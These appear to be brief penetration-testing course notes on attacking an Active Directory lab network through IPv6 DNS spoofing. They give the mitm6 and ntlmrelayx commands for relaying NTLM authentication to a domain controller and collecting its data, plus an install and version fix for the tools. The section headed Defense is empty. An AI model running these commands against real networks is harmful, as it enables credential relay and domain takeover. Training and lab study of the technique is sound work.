

most computer run on IPv4
who is doing DNS for IPv6?
so, we spoof the DNS for IPv6
mitm6
https://github.com/dirkjanm/mitm6
pip3 install . / pip2 install .
1. mitm6 -d <domain>

ntlmrelayx.py -6 -t ldaps://<ip domain controler> -wh fakewpad.marvel.local -l lootme
read this:
https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/
https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/
Question: My ntlmrelayx is giving an error during the attack. How can I resolve?
Resolution: Impacket versions > 0.9.19 are unstable and causing issues for students and pentesters alike. Try purging impacket completely and downloading 0.9.19 from here:
https://github.com/SecureAuthCorp/impacket/releases
# Defense